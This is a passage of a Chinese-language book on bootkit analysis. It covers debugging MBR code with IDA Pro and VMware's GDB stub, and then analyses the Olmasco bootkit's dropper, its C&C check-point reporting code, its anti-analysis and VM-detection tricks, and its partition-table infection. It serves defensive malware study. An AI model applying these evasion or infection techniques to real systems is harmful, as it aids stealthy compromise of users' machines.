

*Figure 9-5: 使用 IDA 界面在 Bochs VM 中调试 MBR*

Figure 9-5 所示的界面比之前在 Figure 9-2 中展示的 Bochs 命令行调试器界面要友好得多。你可以在同一窗口中同时看到：

➊ 启动代码的汇编指令  
➋ CPU 寄存器的内容  
➌ 内存转储  
➍ CPU 堆栈的内容  

这极大简化了启动代码的调试过程。

## 使用 VMware Workstation 虚拟化

IDA Pro 与 Bochs 的组合为启动代码分析提供了强大的支持，但使用 Bochs 调试 OS 启动过程有时会不稳定，且 emulation 技术受限于性能。例如，进行深入的恶意软件分析需要先创建一个预先安装操作系统的磁盘镜像，这一步骤因 emulation 的特性而耗时。Bochs 缺乏便捷的虚拟机快照管理机制，这也是一个不可或缺的功能。

为了获得更稳定、更高效的调试，我们可以使用 VMware 的内置 GDB 调试接口配合 IDA。本节介绍 VMware GDB 调试器，并演示如何设置调试会话。我们将在后续章节讨论如何调试 Microsoft Windows 启动加载器，重点涉及 MBR 与 VBR 启动套件，并从调试角度分析从实模式到受保护模式的切换。

VMware Workstation 是一个强大的工具，用于复制操作系统和环境。它允许我们在同一台机器上创建包含客户机操作系统的虚拟机，并在宿主操作系统上运行它们。客户机与宿主操作系统相互隔离，仿佛在两台独立的物理机器上运行。这对于调试非常有用，因为可以在同一台宿主机上同时运行调试器和被调试程序。VMware Workstation 在此方面与 Bochs 类似，但 Bochs emulates CPU 指令，而 VMware Workstation 直接在物理 CPU 上执行指令，因此 VM 中的代码运行速度快于 Bochs。

自版本 6.5 起，VMware Workstation 包含用于调试 VM 的 GDB stub，这使我们能够在 BIOS 执行 MBR 代码之前就调试 VM 的执行。自版本 5.4 起，IDA Pro 包含支持 GDB 调试协议的调试模块，可与 VMware 一起使用。

截至本章撰写时，VMware Workstation 提供两个版本：Professional（商业版）和 Workstation Player（免费版）。Professional 版提供扩展功能，包括创建和编辑 VM 的能力，而 Workstation Player 仅允许运行 VM 或修改其配置。但两个版本都包含 GDB 调试器，可用于启动套件分析。本章我们使用 Professional 版，以便创建 VM。

> **NOTE**
>
> *在使用 VMware GDB 调试器之前，需要使用 VMware Workstation 创建一个虚拟机实例并在此上预先安装操作系统。* 创建 VM 的过程超出本章范围，详细信息可参阅文档 [`www.vmware.com/pdf/desktop/ws90-using.pdf`](https://www.vmware.com/pdf/desktop/ws90-using.pdf)。

### 配置 VMware Workstation

创建虚拟机后，VMware Workstation 会在用户指定的目录中放置 VM 镜像文件和配置文件，我们称之为虚拟机目录。

要让 VMware 与 GDB 配合工作，需要在虚拟机配置文件（`*.vmx`）中设置若干选项，如 Listing 9-4 所示。配置文件是文本文件，扩展名为 `*.vmx`，位于虚拟机目录中。请用你喜欢的文本编辑器打开它，并复制 Listing 9-4 中的参数。

```
➊ debugStub.listen.guest32 = "TRUE"  
➋ debugStub.hideBreakpoints = "TRUE"  
➌ monitor.debugOnStartGuest32 = "TRUE"
```

*Listing 9-4: 在 VM 中启用 GDB stub*

➊ 该选项允许本地主机对客户机进行调试。它启用了 VMware GDB stub，使我们能够使用支持 GDB 协议的调试器连接到被调试的 VM。若调试器与 VM 位于不同机器上，则需使用命令 `debugStub.listen.guest32.remote` 启用远程调试。

➋ 该选项启用硬件断点而非软件断点。硬件断点利用 CPU 调试寄存器 `dr0`~`dr7` 实现，而软件断点通常通过执行 `int 3` 指令实现。在恶意软件调试语境下，硬件断点更具韧性，更难被检测。

➌ 最后一个选项指示 GDB 在执行来自 CPU 的第一条指令时中断调试器——即 VM 启动后立即中断。如果我们跳过此配置选项，VMware Workstation 将在不中断的情况下开始执行引导代码，结果我们将无法调试它。

### 调试 32 位或 64 位

选项 `debugStub.listen.guest32` 和 `debugStub.debugOnStartGuest32` 中的后缀 `32` 表示正在调试 32 位代码。如果你需要调试 64 位操作系统，可以改用选项 `debugStub.listen.guest64` 和 `debugStub.debugOnStartGuest64`。然而，对于在 16 位实模式下运行的预启动代码（MBR/VBR），32 位或 64 位选项均可工作。

### 结合 VMware GDB 与 IDA

配置 VM 后，我们可以继续启动调试会话。首先，在 VMware Workstation 中启动 VM，转到菜单并选择 **VM**▸**Power**▸**Power On**。

接下来，我们将运行 IDA Pro 调试器以附加到 VM。选择 **Debugger** 并转到 **Attach**▸**Remote GDB debugger**。

现在我们需要配置调试选项。首先，我们指定目标的主机名和端口。我们在同一主机上运行 VM，因此指定 `localhost` 作为主机名（如 Figure 9-6 所示）和 `8832` 作为端口。这是当我们在 VM 配置文件中使用 `debugStub.listen.guest32` 时 GDB stub 将监听的传入连接端口（当我们使用 `debugStub.listen.guest64` 时，端口号为 `8864`）。其余调试参数可保留默认值。



*Figure 9-6: 指定 GDB 参数*

设置完所有选项后，IDA Pro 尝试附加到目标并建议其可附加的进程列表。由于我们已经开始调试预启动组件，我们应该选择 **<attach to the process started on target>**，如 Figure 9-7 所示。



*Figure 9-7: 选择目标进程*

此时，IDA Pro 附加到 VM 并在执行第一条指令时中断。

#### 配置内存段

在进一步操作之前，我们需要更改调试器为我们创建的内存段类型。当我们启动调试会话时，IDA Pro 创建了一个 32 位内存段，如 Figure 9-8 所示。



*Figure 9-8: IDA Pro 中的内存段参数*

在预启动环境中，CPU 在实模式下运行，因此为了正确反汇编代码，我们需要将此段从 32 位更改为 16 位。为此，右键单击目标段并选择 **Change segment attributes**。在出现的对话框中，在 Segment bitness 窗格中选择 **16-bit** ➊，如 Figure 9-9 所示。



*Figure 9-9: 更改内存段的位宽*

这将使该段变为 16 位，并且引导组件中的所有指令都将被正确反汇编。

#### 运行调试器

设置好所有正确选项后，我们可以继续进行 MBR 加载。由于调试器在执行开始时就附加到了 VM，MBR 代码尚未加载。要加载 MBR 代码，我们在代码最开始的地址 `0000:7c00h` 设置断点，然后继续执行。要设置断点，转到反汇编窗口中的地址 `0000:7c00h` 并按 `F2`。这将显示一个带有断点参数的对话框（参见 Figure 9-10）。

Location 文本框 ➊ 指定将设置断点的地址：`0x7c00`，对应虚拟地址 `0000:7c00h`。在 Settings 区域 ➋，我们选择 Enabled 和 Hardware 复选框选项。勾选 Enabled 框意味着断点处于激活状态，一旦执行流到达 Location 文本框中指定的地址，断点就会触发。勾选 Hardware 框意味着调试器将使用 CPU 的调试寄存器来设置断点，同时也激活了 Hardware breakpoint mode 选项 ➌，这些选项指定断点类型。在我们的例子中，我们指定 Execute 以在执行地址 `0000:7c00h` 处的指令时设置断点。其他硬件断点类型用于在指定位置读取和写入内存，这里不需要。Size 下拉菜单 ➍ 指定受控内存的大小。我们可以保留默认值 1，意味着断点将仅控制地址 `0000:7c00h` 处的 1 个字节。设置好这些参数后，点击 **OK**，然后按 `F9` 恢复执行。



*Figure 9-10: 断点设置对话框*

MBR 加载并执行后，调试器中断。调试器窗口如 Figure 9-11 所示。



*Figure 9-11: IDA Pro 调试器界面*

此时，我们位于 MBR 代码的第一条指令处，指令指针寄存器 ➊ 指向 `0000:7c00h`。我们可以在内存转储窗口和反汇编中看到 MBR 已成功加载。从这里，我们可以继续 MBR 代码的调试过程并逐条执行每条指令。

> **NOTE**
>
> *本节的目的只是向你介绍使用 VMware Workstation GDB 调试器配合 IDA Pro 的可能性，因此我们不会在本章中更深入地使用 GDB 调试器。然而，在接下来的几章中，当我们分析 Rovnix 引导程序时，你会找到更多关于其用法的信息。*

### Microsoft Hyper-V 和 Oracle VirtualBox

本章不涵盖 Microsoft Hyper-V 虚拟机管理器（它是自 Windows 8 起 Microsoft 客户端操作系统的组件），也不涵盖 Oracle VirtualBox 开源虚拟机管理器 (VMM)。这是因为在撰写本章时，这两个程序都没有为 VM 启动过程提供足够早的文档化调试接口，以满足引导代码恶意软件分析的要求。

在发布时，Microsoft Hyper-V 是唯一支持启用 Secure Boot 的 VM 的虚拟化软件，这可能是不提供启动过程早期阶段调试接口的原因之一。我们将在第 17 章更深入地探讨 Secure Boot 技术及其漏洞。我们在此提及这两个程序，因为它们广泛用于恶意软件分析，但它们缺乏早期启动过程调试接口是我们首选 VMware Workstation 进行恶意引导代码调试的主要原因。

### 结论

在本章中，我们演示了如何使用 Bochs 模拟器和 VMware Workstation 调试引导程序 MBR 和 VBR 代码。当你需要更深入地查看恶意引导代码内部时，这些动态分析技术是你武器库中有用的工具。它们补充了你可能在静态分析中使用的方法，并有助于回答静态分析无法解决的问题。

我们将在 第 11 章 再次使用这些工具和方法来分析 Rovnix 引导程序，其架构和功能过于复杂，静态分析方法难以有效应对。

### 练习

我们提供了一系列练习供你测试本章学到的技能。你将从 MBR、VBR/IPL 和新技术文件系统 (NTFS) 分区构建一个 PC 的 Bochs 镜像，然后使用 IDA Pro 的 Bochs 前端执行动态分析。首先，你需要在 *[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)* 下载以下资源：

- `mbr.mbr` 包含 MBR 的二进制文件
- `partition0.data` 包含 VBR 和 IPL 的 NTFS 分区镜像
- `bochs.bochsrc` Bochs 配置文件

你还需要 IDA Pro 反汇编器、Python 解释器以及 Bochs 模拟器。使用这些工具以及本章涵盖的信息，你应该能够完成以下练习：

1. 创建一个 Bochs 镜像，并调整提供的模板配置文件 `bochs.bochsrc` 中的值，使其符合 Listing 9-1。如“Creating the Disk Image”中所述，使用 `bximage` 工具创建一个 10MB 扁平镜像，然后将镜像存储到文件中。
2. 编辑模板配置文件中的 `ata0-master` 选项，使用在练习 1 中创建的镜像。使用 Listing 9-1 中提供的参数进行设置。
3. 在 Bochs 镜像准备就绪后，将 `mbr.mbr` 文件的 MBR 和 VBR 启动组件写入到它上。首先，在 IDA Pro 中打开 `mbr.mbr` 文件并进行分析。观察到 MBR 代码是加密的。找到解密例程并描述其算法。
4. 分析 MBR 的分区表，并尝试回答以下问题：有多少个分区？哪个分区是活动分区？该活动分区在硬盘上位于何处？它相对于硬盘起始处的偏移量是多少，以及其大小是多少个扇区？
5. 在定位到活动分区后，使用 Listing 9-2 中的 Python 脚本将 `mbr.mbr` 文件写入到 Bochs 镜像中。使用 Listing 9-3 中的 Python 脚本将 `partition0.data` 文件写入到在上一步骤中找到的偏移量处的 Bochs 镜像中。完成此任务后，你将拥有一个已感染的 Bochs 镜像，准备进行 emulate。
6. 使用新编辑的 `bochs.bochsrc` 配置，通过“Combining Bochs with IDA”中描述的 IDA Pro 前端启动 Bochs 模拟器。IDA Pro 调试器应在执行时停止。在 `0000:7c00h` 设置一个断点，该地址对应于 MBR 代码加载的位置。
7. 当断点在 `0000:7c00h` 处命中时，检查 MBR 代码是否仍然加密。在前面识别的解密例程上设置一个断点并恢复执行。当解密例程的断点命中时，跟踪它直到 MBR 代码完全解密。将已解密的 MBR 导出到文件以便进一步静态分析。（参考 Chapter 8 了解 MBR 静态分析技术。）

# 第 10 章：MBR 和 VBR 感染技术的演变：OLMASCO


针对第一波引导程序的攻击，安全开发人员开始开发专门检查 MBR 代码修改的防病毒产品，迫使攻击者寻找其他感染技术。2011 年初，TDL4 家族演变为具有前所未见感染技术的新恶意软件。其中一个例子是 Olmasco，它主要基于 TDL4，但有一个关键区别：Olmasco 感染 MBR 的*分区表*而不是 MBR 代码，使其能够感染系统并绕过内核模式代码签名策略，同时避免被日益敏锐的反恶意软件检测到。

Olmasco 也是首个已知采用 MBR 和 VBR 感染方法组合的引导程序，尽管它仍主要针对 MBR，这使其区别于感染 VBR 的引导程序，如 Rovnix 和 Carberp（我们将在第 11 章讨论）。

与其 TDL 前辈一样，Olmasco 使用 PPI 商业模式进行分发，这应该从我们在第 1 章讨论 TDL3 根套件时就很熟悉。PPI 模式类似于用于分发浏览器工具栏的方案，如 Google 的工具栏，并使用嵌入的唯一标识符 (UID) 允许分发商跟踪安装数量，从而计算收入。分发商信息嵌入到可执行文件中，专用服务器计算安装数量。分发商每指定数量的安装获得固定金额。^(1)

在本章中，我们将探讨 Olmasco 的三个主要方面：感染系统的 dropper；感染 MBR 分区表的引导程序组件；以及挂钩硬盘驱动程序并交付载荷、利用隐藏文件系统和实现重定向网络通信功能的根套件部分。

## Dropper

Dropper 是一种特殊的恶意应用程序，它作为存储为加密载荷的其他恶意软件的载体。Dropper 到达受害者的计算机并解包并执行载荷——在我们的例子中是 Olmasco 感染器——后者又在系统上安装并执行引导程序组件。Dropper 通常还会在解包载荷之前执行许多反调试和反模拟检查，以逃避自动恶意软件分析系统，我们稍后将看到。

### DROPPER VS. DOWNLOADER

另一种用于将恶意软件传递到系统的常见恶意应用程序类型是 *downloader*。顾名思义，downloader 从远程服务器下载载荷，而不是使用 dropper 自身携带载荷的方法。但在实践中，术语 *dropper* 更常见，经常被用作 downloader 的同义词。

#### Dropper 资源

Dropper 具有模块化结构，并将引导程序的大多数恶意组件存储在其*资源*节中。每个组件（例如标识符值、引导加载程序组件或载荷）存储在单个资源条目中，并使用 RC4 加密（详见第 136 页“RC4 流密码”）。资源条目的大小用作解密密钥。表 10-1 列出了 dropper 资源节中的引导程序组件。

**Table 10-1: Olmasco Dropper 资源节中的引导程序组件**

| **资源名称** | **描述** |
| --- | --- |
| `affid` | 唯一分支标识符。 |
| `subid` | 分支的子标识符。这与分支 ID 相关联，一个分支可以有多个子标识符。 |
| `boot` | 恶意引导加载程序的第一部分。它在引导过程开始时执行。 |
| `cmd32` | 32 位进程的用户模式载荷。 |
| `cmd64` | 64 位进程的用户模式载荷。 |
| `dbg32` | 恶意引导加载程序组件的第三部分（伪造的 `kdcom.dll` 库），用于 32 位系统。 |
| `dbg64` | 恶意引导加载程序组件的第三部分（伪造的 `kdcom.dll` 库），用于 64 位系统。 |
| `drv32` | 32 位系统的恶意内核模式驱动程序。 |
| `drv64` | 64 位系统的恶意内核模式驱动程序。 |
| `ldr32` | 恶意引导加载程序的第二部分。它由 `boot` 组件在 32 位系统上执行。 |
| `ldr64` | 恶意引导加载程序的第二部分。它由 `boot` 组件在 64 位系统上执行。 |
| `main` | 未知。 |
| `build` | Dropper 的构建编号。 |
| `name` | Dropper 的名称。 |
| `vbr` | 硬盘上恶意 Olmasco 分区的 VBR。 |

标识符 `affid` 和 `subid` 用于 PPI 方案中计算安装数量。参数 `affid` 是分支（即分发商）的唯一标识符。参数 `subid` 是区分不同来源安装的子标识符。例如，如果 PPI 计划的分支从两个不同的文件托管服务分发恶意软件，来自这些来源的恶意软件将具有相同的 `affid` 但不同的 `subid`。这样，分支可以比较每个 `subid` 的安装数量并确定哪个来源更有利可图。

我们稍后将讨论 `boot`、`vbr`、`dbg32`、`dbg64`、`drv32`、`drv64`、`ldr32` 和 `ldr64` 等引导程序组件，但 `main`、`build` 和 `name` 仅在表中描述。

### RC4 流密码

RC4 是 1987 年由 RSA Security 的 Ron Rivest 开发的流式密码。RC4 接收一个可变长密钥并生成用于加密明文的伪随机字节流。由于其紧凑且实现简洁，RC4 在恶意软件开发者中日益流行。因此，许多 rootkits 和 bootkits 都采用 RC4 来保护载荷、与命令与控制（C&C）服务器的通信以及配置信息。

#### 为未来开发追踪功能

Olmasco 的加载器（dropper）引入了错误报告功能，以帮助开发者进行后续开发。在感染过程的每一步（即引导程序安装算法的每一步）执行成功后，bootkit 会向 C&C 服务器报告一个“检查点”。这意味着如果安装失败，开发者可以精确定位故障发生的步骤。在出现错误时，bootkit 会发送一条详细的错误信息，为开发者提供足够的信息以确定故障来源。

跟踪信息通过 HTTP GET 方法发送到 C&C 服务器，其域名已硬编码到加载器中。Listing 10-1 展示了由 Hex-Rays 反编译的 Olmasco 加载器例程，该例程生成查询字符串以报告感染状态信息。

```c
HINTERNET __cdecl ReportCheckPoint(int check_point_code){  
    char query_string[0x104];  
    memset(&query_string, 0, 0x104u);  
    ➊ _snprintf(  
        &query_string,  
        0x104u,  
        "/testadd.php?aid=%s&sid=%s&bid=%s&mode=%s%u%s%s",  
        *FILE_affid,  
        *FILE_subid,  
        &bid,  
        "check_point",  
        check_point_code,  
        &bid,  
        &bid);  
    ➋ return SendDataToServer(0, &query_string, "GET", 0, 0);  
}
```

*Listing 10-1: 向 C&C 服务器发送跟踪信息*

在 ➊ 处，恶意软件调用 `_snprintf` 生成包含加载器参数的查询字符串。在 ➋ 处，它发送请求。`check_point_code` 对应安装算法中发送该消息的步骤的序号。例如，1 对应算法的第一步，2 对应第二步，以此类推。成功完成安装后，C&C 服务器会收到类似 1、2、3、4 … *N* 的数字序列，其中 *N* 为安装的最后一步。如果安装不完全成功，C&C 服务器会收到 1、2、3 … *P* 的序列，其中 *P* 为算法失败的步骤。这使得恶意软件开发者能够识别并修复故障步骤。

#### 反调试和反模拟技巧

Olmasco 还引入了若干新技巧，用于绕过沙箱分析以及防止内存转储。加载器使用自定义打包工具压缩，执行后会解压原始的未压缩加载器，并在内存中清除 PE 头部的某些字段，例如原始入口点地址和节表。Figure 10-1 展示了解压前后的 PE 头部（左侧为解压前，右侧为未受影响）。



*Figure 10-1: 删除 PE 头部数据*

此技巧对抗内存转储在调试会话或自动解压工具时表现良好。删除有效的 PE 头部使得转储软件难以确定 PE 文件的结构，进而无法准确定位代码和数据段的位置。缺乏这些信息，转储软件无法正确重建 PE 映射，导致失败。

Olmasco 还针对基于虚拟机的 bot 跟踪器提供了防御措施。安装期间，Olmasco 通过 Windows Management Instrumentation（WMI）的 `IWbemServices` 接口检测加载器是否运行在虚拟环境中，并将此信息发送至 C&C 服务器。若检测到虚拟环境，加载器会直接停止执行并从文件系统中删除自身（而不是解压恶意二进制文件，从而暴露给分析工具）。

> **NOTE**
>
> *Microsoft WMI 是 Windows 平台上提供的一组用于数据和操作管理的接口。其主要目的之一是自动化远程计算机上的管理任务。从恶意软件的角度来看，WMI 提供了一组丰富的组件对象模型 (COM) 对象，可用于收集系统的全面信息，如平台信息、运行进程和正在使用的安全软件。*

恶意软件还使用 WMI 收集关于目标系统的以下信息：

- **Computer** 系统名称、用户名、域名、用户工作组、处理器数量等
- **Processor** 核心数、处理器名称、数据宽度、逻辑处理器数量
- **SCSI controller** 名称和制造商
- **IDE controller** 名称和制造商
- **Disk drive** 名称、型号和接口类型
- **BIOS** 名称和制造商
- **OS** 主版本号和次版本号、服务包编号等

恶意软件操作者可以使用此信息评估受感染系统的硬件配置并决定是否值得追踪。例如，他们可以使用 BIOS 名称和制造商来检测虚拟环境（如 VMware、VirtualBox、Bochs 或 QEMU），这些环境常用于自动恶意软件分析环境，因此对操作者兴趣不大。

相反，他们可以使用系统名称和域名来识别受感染机器的所属公司，从而部署专门针对该组织的定制载荷。

## 引导程序功能

完成沙箱检查后，dropper 继续在系统上安装引导程序组件。Olmasco 的引导程序已从 TDL4 引导程序修改而来（正如第 7 章所述，它覆盖 MBR 并在可启动硬盘末尾保留空间用于其恶意组件），但采用了不同的感染方法。

### 引导程序感染技术

首先，Olmasco 在可启动硬盘末尾创建一个分区。Windows 分区表总是在末尾包含一些未分配空间，这通常足以容纳引导程序的组件——有时甚至更多。恶意软件通过占用这部分未分配空间并修改原始 MBR 中空闲的分区表条目使其指向该分区，从而创建一个恶意分区。奇怪的是，无论有多少未分配空间可用，这个新创建的恶意分区被限制在 50 GB。这种大小限制的一个可能解释是为了避免因消耗所有可用空间而引起用户注意。

正如第 5 章所述，MBR 分区表位于 MBR 起始处偏移 `0x1BE` 处，由四个 16 字节条目组成，每个条目描述一个分区。最多有四个主分区，且只能有一个标记为活动，因此引导程序只能从一个分区启动。恶意软件用恶意分区的参数覆盖分区表中的第一个空条目，将其标记为活动，并初始化新分区的 VBR，如 Listing 10-2 所示。

```
First partition                    00212000      0C13DF07      00000800      00032000  
Second partition (OS)              0C14DF00      FFFFFE07      00032800      00FCC800  
Third partition (Olmasco), active  FFFFFE80      FFFFFE1B      ➊00FFF000      ➋00000FB0  
Fourth partition (empty)           00000000      00000000      00000000      00000000
```

*Figure 10-2: Olmasco 感染后的分区表*

在此可以看到恶意分区的起始地址 ➊ 以及大小（以扇区为单位） ➋。如果 Olmasco 引导程序发现分区表中没有空闲条目，它会向 C&C 服务器报告并终止。Figure 10-2 展示了系统被 Olmasco 感染后分区表的变化。

